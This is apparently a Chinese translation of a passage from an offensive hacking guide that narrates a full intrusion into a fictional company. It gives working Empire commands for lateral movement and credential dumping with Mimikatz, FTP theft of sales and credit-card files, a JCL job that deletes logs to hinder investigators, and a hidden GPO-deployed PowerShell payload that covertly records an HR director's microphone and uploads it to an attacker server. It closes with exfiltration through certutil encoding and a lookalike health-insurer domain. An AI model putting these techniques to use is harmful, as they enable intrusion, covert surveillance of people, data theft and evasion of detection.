


很漂亮，不是吗？销售数据、信用卡号码、产品等。剩下要做的就是使用熟悉的mget命令下载这些文件。
```
open 192.168.1.200
FTPSRV
PASS01
mget SALESMAS.SALES.ACOUNTS.*
prompt
mget SALESMAS.SALES.PRODUCTS.*
prompt
mget ARCHIVE.SALES.*
prompt
quit
```

在离开主机之前，我们需要删除在磁盘上创建的多个文件。如果没有我们的帮助，调查人员也会有足够的线索。这个简单的JCL将处理这个任务：
```
//FTPSRV1 JOB,MSGLEVEL=0
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 DELETE 'FTPSRV.OUTPUT1'
 DELETE 'FTPSRV.OUTPUT2'
 DELETE 'FTPSRV.OUTPUT3'
 DELETE 'FTPSRV.OUTPUT4'
 DELETE 'FTPSRV.OUTPUT5'
 DELETE 'FTPSRV.PDS'
 DELETE 'FTPSRV.ELV.SVC'
 OUTPUT FTPSRV1(JOB04721) delete
OUTPUT FTPSRV1(JOB04722) delete
OUTPUT FTPSRV1(JOB04723) delete
OUTPUT FTPSRV1(JOB04724) delete
OUTPUT FTPSRV1(JOB04725) delete
 ALU FTPSRV NOSPECIAL NOOPERATIONS
/*
//SYSIN DD DUMMY
//SYSTSPRT DD SYSOUT=*
```

我们在工作卡中添加了MSGLEVEL=0指令，这样就不会记录上次提交的JCL的核心内容。使用多个“OUTPUT”命令删除与先前JCL相关的日志。

最后，我们删除帐户的特殊和操作权限，使一切恢复正常。

还不错吧？大型机被黑客社区如此忽视，以至于我们认为它们已经过时，很快就会消失。

因此，一个典型的渗透测试人员更喜欢电子邮件和域控制器，而真正的数据是在一个（有时）缺乏安全审计审查的大型机的数据集内…

## HR域
### 再次认识对方
在上一章中，我们利用了GBSALES和GBSHOP域中列出的备份帐户。这是一个技巧，我们可以再次应用在其他一些域：GBRD，GBCORP等。

然而，人力资源领域GBHR似乎没有这样的帐户。幸运的管理失误，还是真正的加固措施？谁知道呢…无论如何，我们会为这个域寻求一种不同的方法：寻找系统管理员。

我们已经完全控制了不同域中的一些计算机。因此，我们可以将最近连接到这些所有这些机器上的用户的明文密码dump出来，如果有人连接到其中任何一台机器上，就会将它们变成真正的陷阱。
```
Empire: salesFTP) > agents
[*] Active agents:
Name Internal IP Machine Name Username
wkAgent 192.168.1.25 WK0025 *WL0025_wk_admin
DvAgent 192.168.1.2 WK0025 GBSHOP\dvoxon
Dcshop 10.10.20.199 SV0199 *GBSHOP\rachel_adm
salesFTP 10.30.30.210 SL0210 *GBSALES\sysback
```

GBHR用户、计划任务或服务帐户连接到这些陷阱之一并将其凭据留在内存中，这只是时间问题！

使用GBSALES域上的代理，我们首先在GBHR中列出域管理员：
```
(Empire: salesFTP) > usemodule
situational_awareness/network/powerview/get_user
(Empire: get_user) > set Filter adminCount=1
(Empire: get_user) > set Domain GBHR.CORP
(Empire: get_user) > execute
Job started: Debug32_qa90a
distinguishedname : CN=Administrator,CN=Users,DC=GBHR,DC=CORP
name : Administrator
objectsid : S-1-5-21-1930387874-2808181134-879091260-500
admincount : 1
distinguishedname : CN=svc_ps,CN=Users,DC=GBHR,DC=CORP
name : svc_ps
objectsid : S-1-5-21-1930387874-2808181134-879091260-2001
admincount : 1
distinguishedname : CN=erica_a,CN=Users,DC=GBHR,DC=CORP
name : erica_a
objectsid : S-1-5-21-1930387874-2808181134-879091260-2030
admincount : 1
```

原理很简单：我们不断地对照不同GBSALES和GBSHOP服务器（超过400台机器）上当前的活跃用户交叉检查这个列表。

假如在机器上找到一个GBHR管理员，我们连接到它，使用Mimikatz dump出明文密码！

如果我们运气不好（有时活动很少），我们会在几个小时后再试一次。毕竟，在某个时间点，人力资源管理帐户将获取GBSHOP或GBHR资源是合乎逻辑的。

为什么不先建立双向信任呢。
```
(Empire: salesFTP) > usemodule
situational_awareness/network/powerview/user_hunter
(Empire: user_hunter) > execute
```


在属于GBSALES域的服务器SL0213上似乎有一些有趣的活动。我们通过使用WMI生成远程Empire代理来移动到该服务器：
```
(Empire: salesFTP) > usemodule lateral_movement/invoke_wmi
(Empire: invoke_wmi) > set Listener FrontGun_List
(Empire: invoke_wmi) > set ComputerName SL0213.GBSALES.CORP
(Empire: invoke_wmi) > run
[+] Initial agent BHNS2HZGPF43TDRX from 10.30.30.213 now active
(Empire: invoke_wmi) > interact BHNS2HZGPF43TDRX
(Empire: BHNS2HZGPF43TDRX) > rename SL0213
(Empire: SL0213) >
```

我们现在要做的就是把Mimikatz释放到目标身上：
```
(Empire: SL2013) > mimikatz
Job started: Debug32_md6ll
```


第三个域沦陷了：svc_ps/Sheldon*01。

### 寻找数据
一旦拥有了域管理帐户，我们就可以开始考虑员工数据存储在哪里。我们当然可以通过查找share（share_finder模块）在这里和那里获得一些摘录，但是真正的数据一定保存在结构化数据库中。

我们使用WMI作为横向移动向量在众多HR服务器中的一个服务器上放置代理：
```
(Empire: salesFTP) > usemodule lateral_movement/invoke_wmi
(Empire: invoke_wmi) > set Listener FrontGun_List
(Empire: invoke_wmi) > set UserName GHBR\svc_ps
(Empire: invoke_wmi) > set Password Sheldon*01
(Empire: invoke_wmi) > set ComputerName SR0011.GBHR.CORP
(Empire: invoke_wmi) > run
[+] Initial agent VJAKEHA86D9AJDAG from 10.40.40.11 now active
(Empire: invoke_wmi) > interact VJAKEHA86D9AJDAG
(Empire: VJAKEHA86D9AJDAG) > rename HRAgent
(Empire: HRAgent) >
```

在服务器描述中查找关键字“HR”的简单查询会返回许多前景看好的结果：
```
(Empire: HRAgent) > usemodule situational_awareness/network/powerview/
get_computer
(Empire: get_computer) > set filter description=*HR*
(Empire: get_computer) > set FullData True
(Empire: get_computer) > run
Logoncount : 441
Badpasswordtime : 1/1/1601 1:00:00 AM
Description : Master HR database
Objectclass : CN=SR0040,CN=Computers,DC=GBHR,DC=CORP
Lastlogontimestamp : 3/26/2017 5:52:17 PM
Name : SR0040
```

最令我们高兴的是，管理员被教导选择有意义的服务器名称和描述文本。他们必须这样做，否则信息系统将难以管理。这使我们的工作更容易。人力资源数据库显然在SR0040.GBHR.CORP上。

由于它托管在Windows服务器上，我们可以大胆地假设数据库运行在Microsoft SQL server上，然后继续直接连接到它。但让我们花几秒钟来确认这个假设。

对常用的SQL端口进行快速端口扫描应该可以做到：Oracle的1521、MySQL的3306和SQL Server的1433（尽管在2008版本之后，端口往往是动态选择的）。
```
(Empire: HRAgent) > usemodule situational_awareness/network/portscan
(Empire: portscan) > use Ports {1433, 1521, 3306}
(Empire: portscan) > use Hosts SR0040.GBHR.CORP
(Empire: portscan) > run
Job started: Debug32_0plza
Hostname OpenPorts 
-------- --------- 
SR0040.GBHR.CORP 1433
```

很 完美！SQL Server的惊人之处在于它通常链接到Windows域。如果域沦陷，每个Microsoft SQL Server数据库也会沦陷。我们有一个域名管理帐户，所以理论上没有什么是遥不可及的。

但是，有时SQL数据库会限制对几个安全组的访问，因此我们需要成为正确的Active Directory组的一部分,那是一种形式。我们可以将svc_ps添加到任何我们认为必要的组中。

在任何情况下，为了与HR数据库交互，我们将PowerShell模块加载到Empire代理中，使其发出SQL请求。下面的脚本就可以了(参阅https://blog.jourdant.me/post/simple-sql-in-powershell)。
```
(Empire: HRAgent) > scriptimport /root/Invoke-SqlCommand.ps1
script successfully saved in memory
(Empire: HRAgent) > scriptcmd Invoke-SqlCommand -Server "10.40.40.40"
-Database "master" -Query "SELECT @@version" 
(Empire: HRAgent) >
Job Started: Debug32_aja7w
RunspaceId: ebe22441-f98b-44f7-9533-4c802821a2c5
Column1 : Microsoft SQL Server 2008 (RTM) – 10.0.1600.22(X64)
 Jul 9 2008 14:17:44
 Copyright (c) 1988-2008 Microsoft Corporation
 Express Edition (64-bit) on Windows NT 6.2 <X64>
```


有几点值得一提：
- 脚本Invoke-SqlCommand.ps1由代理加载到内存中。它没有触及远程服务器上的磁盘。
- 由于我们并不真正了解数据库的布局，因此我们选择了一个默认的访问方式：master。或者我们也可以像其他很多人一样用用tempdb。
- 我们正在处理一个2008年的SQL服务器。
- 我们不必提供凭据，因为Windows会自动转发svc_ps的标识。显然，作为域管理员就足以访问数据库。

是时候找点乐趣了！在数据库中要做的第一件事是检查当前用户的权限。SQL查询如下(渗透测试人员Monkey的博客有一组SQL查询，这些查询在渗透中很有用http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)：
```
"SELECT is_srvrolemember('sysadmin')"
```


如所料，我们对系统拥有完全的权限。我们可以使用以下查询列出当前数据库：
```
"SELECT name FROM master.dbo.sysdatabases "
```

由于此请求很可能返回多个列，因此我们需要将输出格式转换为字符串，以便能够通过Empire代理查看它。我们将向Invoke SqlCommand追加以下指令：“| out string”：
```
(Empire: HRAgent) > scriptcmd scriptcmd Invoke-SqlCommand -Server
"10.40.40.40" -Database "master" -Query " SELECT name FROM
master.dbo.sysdatabases" | out-string
Job started: Debug32_ie9lg
name 
---- 
master
tempdb
model
msdb
[…]
HR_master
[…]
```

HR_master似乎是最合理的选择…与其列出它的表格（很容易就有几千个）并手动浏览每一个表格，我们只需搜索包含关键字的表格：设计师、员工、工资等，就可以解决大海捞针的问题:
```
select table_name from hr_master.information_schema.tables where
table_type = 'base table' and table_name like '%employee%'
```

```
(Empire: HRAgent) > scriptcmd scriptcmd Invoke-SqlCommand -Server
"10.40.40.40" -Database "master" -Query SELECT TABLE_NAME FROM
HR_master.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE
TABLE'" | out-string

Job started: Debug32_azd0k
table_name 
---- 
HR_Employee_DE_Full
HR_Employee_wages_ref
HR_Employee_raise
HR_Employee_eval
HR_Employee_perf
[…]
```

头奖！我们现在可以享受浏览这些表格，查找我们喜欢的任何数据：设计师、工资、绩效评估等(在转储整个表之前，最好先获取要转储的相关和感兴趣的列的名称)。
```
select * from hr_master..Employee_GB_Full
```

```
(Empire: HRAgent) > scriptcmd scriptcmd Invoke-SqlCommand -Server
"10.40.40.40" -Database "master" -Query select * from
hr_master..Employee_GB_Full" | out-string
Job started: Debug32_azd0k
empno : 166
ename : SCHMIDT
job : DESIGNER
mgr : 6
hiredate : 12/17/2016 12/:00:00 AM
````

要将数据输出到文件中，我们只需添加PowerShell命令：| output file-append c:\users\svc_ps\appdata\local\out.txt

我们将后续章节中注意安全提取。


### 董事会会议
到目前为止，我们已经实现了名单上的三个目标中的两个。最后一个——潜入并伪装成对董事会成员——可能是最简单的一个，因为我们在公司内部已经有了如此广泛的触角。

为了渗透董事会会议，我们只需要针对一个我们知道参加会议的成员。既然我们是在人力资源窗口领域，那么人力资源总监呢？在Active Directory中快速搜索会显示其详细信息：
```
(Empire: HRAgent) > usemodule usemodule situational_awareness/network/
powerview/get_user
(Empire: get_user) > set Filter description=*HR*
(Empire: get_user) > run
Job started: Debug32_br6of
[…]
description : HR Director
displayname : Elise Jansen
userprincipalname : ejansen@GBHR.CORP
name : Elise Jansen
objectsid : S-1-5-21-1930387874-2808181134-879091260-1117
samaccountname : ejansen
[…]
```

我们可以通过查看域控制器保存的连接日志来跟踪Elise的所有设备：
```
(Empire: HRAgent) > usemodule usemodule situational_awareness/network/
powerview/user_hunter
(Empire: user_hunter) > set UserName ejansen
(Empire: user_hunter) > run
```


突然出现两台机器。我们可以同时瞄准这两个目标，但我很好奇是否需要使用两台计算机。Elise一个上面有敏感数据，另一个上面没有？SPHR0098是她的个人笔记本吗？

让我们使用get_computer模块来获取关于它们的数据：
```
(Empire: HRAgent) > usemodule situational_awareness/network/powerview/
get_computer
(Empire: get_computer) > set ComputerName SPHR0098
(Empire: get_computer) > set FullData True
(Empire: get_computer) > run
Job started: Debug32_myli4
description : Surface PRO
CN=SPHR0098,CN=Surface,CN=Computers,DC=GBHR,DC=CORP
name : SPHHR0098
[…]
```

当然！微软Surface Pro！所以另一个设备肯定是她的“普通”笔记本电脑。工作站可能用于办公室工作，而平板电脑可能用于旅行期间的快速笔记…或重要会议-董事会会议！我们有目标了！

Surface Pro与任何传统工作站都依赖相同的Windows内核。我们可以快速扫描以查看是否有可用的端口：
```
(Empire: HRAgent) > usemodule situational_awareness/network/portscan
(Empire: portscan) > use TopPorts 1000
(Empire: portscan) > use Hosts SPHR0098.GBHR.CORP
(Empire: portscan) > run
portscan completed!
```

锁定！好吧，比最初预想的要复杂一点。我们没办法进去。还记得当我们谈到一些域设置时，这些设置有时是由域控制器推送的吗？

如果我们可以配置一个设置：“如果您是机器X，那么执行此代码”怎么办？有可能吗？当然了。它甚至有一个名字：组策略对象（GPO）！

我们的想法是创建一个GPO，它以HR的平板电脑为目标，并指示它执行一个随机的PowerShell脚本。事实上，不是那么随机。每当Elise登录并使用默认麦克风录制环境声音时，这个漂亮的代码就会启动。为了确保我们得到数据，它将每10分钟将数据推送到前置服务器。

首先，我们从记录音频的PS脚本开始。我们通过@sixdub(参阅https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-MicrophoneAudio.ps1)下载准备使用的powerspoit模块Get-MicroponeAudio，然后准备一个循环，每隔10分钟转储一次音频文件：
```
while($true)
{
$i++;
$browser = New-Object System.Net.WebClient
$browser.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-MicrophoneAudio.ps1"));
Get-MicrophoneAudio -path c:\users\ejansen\appdata\local\file$i.wav-Length 600
}
```

这段代码将无休止地录制大约6MB的10分钟音频文件。录制完成后，我们需要上载文件，然后重新开始录制。

为了避免在上载文件时丢失宝贵的秒数，我们需要将上载过程作为作业启动，以便它与实际脚本并行运行(参阅https://github.com/HackLikeAPornstar/GibsonBird/tree/master/chapter5)：
```
while($true)
{
    $i++;
    $browser = New-Object System.Net.WebClient
    $browser.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;
    IEX($browser.DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Exfiltration/Get-MicrophoneAudio.ps1"));
    Get-MicrophoneAudio -path c:\users\ejansen\appdata\local\file$i.wav-Length 600 start-job -Name Para$i -ArgumentList $i -ScriptBlock{ 
        $i = $args[0];
        $browser = New-Object System.Net.WebClient; 
        $browser.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;
        [System.Net.ServicePointManager]::ServerCertificateValidationCallback ={$true};
        $browser.uploadFile("https://<frontgun_ip/", "c:\users\ejansen\appdata\local\file$i.wav");
        }
}
```

除了指示PowerShell接受自签名证书的SSL指令之外，没有什么新功能。实际上，我们选择使用可以快速获得的服务器（使用下面的python脚本设置）进行安全的文件传输。

此脚本依赖于OpenSSL来加密传输的数据，因此我们首先需要生成一个自签名的SSL证书（或者更好的是，如果您不介意为前置服务器注册DNS名称(参阅https://letsencrypt.org/getting-started/)，则生成一个免费的可信Let'sEncrypt证书）：
```
root@FrontGun:~# openssl req -new -x509 -keyout server.pem -out
server.pem -days 365 -nodes
Generating a 2048 bit RSA private key
..................................+++
..................................+++
writing new private key to 'server.pem'
```



太棒了！这个小动作非常有效！我们需要使用Base64编码将此脚本转换为一行代码，以便它可以放入GPO设置并配置到注册表项中：
```
PS> $command = get-content .\record.ps1
PS> $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
PS> $encodedCommand = [Convert]::ToBase64String($bytes)
PS> write-host $encodedCommand
dwBoAGkAbABlACgAJAB0AHIAdQBlACkAIAB7ACAAIAAkAGkAKwArADsAIAA
kAGIAcgBvAHcAcwBlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAF
MAeQBzAHQAZQBtAC4ATgBlAHQALg...
```

要启动此代码，我们只需要执行以下命令:
```
Powershell.exe -NonI -W Hidden -enc aQBtAHAAbwByA[…]
```

攻击载荷已经准备好了，所以让我们专注于GPO创建过程。首先，我们在PowerShell中激活并导入组策略模块。我们将这些指令放在PS函数中，以便稍后通过代理轻松调用它们：
```
function initialize-gpo(){
 Add-WindowsFeature GPMC
 import-module group-policy
 write-output "Initialization Done!"
}
```

然后我们创建一个名为WindowsUpdate的新GPO，并以GBHR域控制器SR0088为目标。
```
Function create-gpo() {
 New-GPo -name WindowsUpdate -domain GBHR.CORP -Server SR0088.GBSHR.CORP
 
 #We only want to target Elise’s account on the computer SPHR0098, so we restrict the scope of this GPO:
 Set-GPPermissions -Name "WindowsUpdate" -Replace -PermissionLevel 
 
 GpoApply -TargetName "ejansen" -TargetType user Set-GPPermissions -Name "WindowsUpdate" -Replace -PermissionLevel  
 GpoApply -TargetName " SPHR0098" -TargetType computer Set-GPPermissions -Name "WindowsUpdate" -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group

 #Finally, we link it to the GBHR domain to activate it:
 New-GPLink -Name WindowsUpdate -Domain GBHR.CORP -Target "dc=gbhr,dc=corp" -order 1 -enforced yes

 #We then instruct the GPO we created to set up a ‘Run’ registry key the next time Elise’s tablet polls new GPO settings (every 20 minutes).The ‘Run’ registry key automatically executes an executable or command at logon. We pass it the PS payload we prepared earlier:
 Set-GPRegistryValue -Name "WindowsUpdate" -key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -value "
 
 powershell.exe -NoP -sta -NonI -Enc aQBtAHAAbwByA […]"
 write-output "Created GPO successfully!"
 #End of create-gpo function
}
```

我们使用模块scriptimport将此脚本加载到Empire代理的内存中，然后调用初始化函数安装GPO模块，然后调用create-gpo函数启动负载：
```
(Empire: HRAgent) > scriptimport /root/gpo.ps1
gpo.ps1
script successfully saved in memory
(Empire: HRAgent) > scriptcmd initialize-gpo()
Job started: Debug32_Apm02
Initialization Done!
Created GPO successfully!
```

文件会源源不断传送到前置服务器。要在作业完成后删除此GPO，我们只需发布：
```
PS> Remove-GPLink -Name WindowsUpdate -Target "OU=GBHR,dc=CORP"
PS> Remove-GPO -Name "WindowsUpdate"
```

## 数据过滤
从吉布森鸟信息系统中，我们收集了大量数据！千兆字节的销售数据，雇员工资数据，信用卡数据，和随处可见的共享目录内的文件。

这确实是非常好的，但是除非我们能找到一种方法将其发送到一个安全的位置-前置服务器或一个虚拟的私人服务器，否则我们仍然有点被困住了。

随着数据的过滤，必须密切注意两个关键点：
- 我们要将数据传送到的地址：要使用哪个域？IP地址是否被列入黑名单？
- 内容！如果GibsonBird碰巧在检查出口流量，而我们碰巧传输了包含敏感关键字的word文档，它将引发各种警报。

内容问题很容易解决。我们只需压缩发送的每个文档，为了避免怀疑，我们将其转换为一个无意义的文本文件。

假设我们要传输以下目录：c:\ users\elise\documents。首先，我们使用Empire模块压缩它：
```
(Empire: FTPSales) > usemodule management/zipfolder
(Empire: zipfolder) > set Folder c:\users\ejansen\documents
(Empire: zipfolder) > set ZipFileName documents.zip
(Empire: zipfolder) > run
Folder c:\users\ejansen\documents zipped to
c:\users\ejansen\documents.zip
```

然后我们使用certutil-encode对其进行编码，以将此zip文档转换为文本文件（base64编码）：
```
(Empire: FTPSales) > shell certutil -encode documents.zip documents.txt
(Empire: FTPSales) > 
Input Length = 150
Output Length = 264
CertUtil: -encode command completed successfully.
```

很简单。现在关于要将数据渗出到的域。这就是我们需要变得更微妙的地方。一些公司依赖于可以对url进行分类的代理。

例如，他们允许google.com，但会阻止drive.google.com或pastebin.com。我们可以赌一把，尝试为前置服务器设置一个随机的新域名？为什么不选择一个我们知道有更好的机会被白名单和信任的域名呢？

在亚马逊注册一个专用服务器怎么样？这样我们就可以在amazonaws.com上找到一个合法的域名。我们不需要在它上面放任何数据；它可以将流量重定向到我们的前置服务器。

此外，考虑到他们的免费分层计划，我们甚至不需要提供信用卡数据来租用服务器的有限时间。

如果你对亚马逊不太放心，可能还有另一个有趣的选择。expiredomains.com网站提供了最近过期的域的列表。

我们可以搜索已知的健康保险公司、银行网站和其他最近倒闭的值得信赖的服务，并尝试购买它们。我们不一定需要一个*.com网站；只要受信任服务的名称在URL中，它就很可能绕过大多数白名单工具。




美国最大的健康保险公司CVS Health怎么样？应该这样做。注册域并将其分配给前置服务器后，我们可以像以前一样在其上设置一个简单的HTTPs python服务器：
```
root@FrontGun: # python simpleHTTPsUpload.py
```

然后使用以下PowerShell命令传输document.txt文件。
```
PS> $browser = New-Object System.Net.WebClient;
PS> $browser.Proxy.Credentials
=[System.Net.CredentialCache]::DefaultNetworkCredentials;
$browser.uploadFile("https://cvshealth.co.in", "
c:\users\ejansen\documents.txt");
```

就这样，伙计们！永远不要被新奇的数据防泄漏（DLP）系统打动。它们只是另一种赚钱的营销工具。

一旦我们得到了数据，我们总能找到一种方法把它弄出来！


> 翻译：Ryan 2020/2/20 

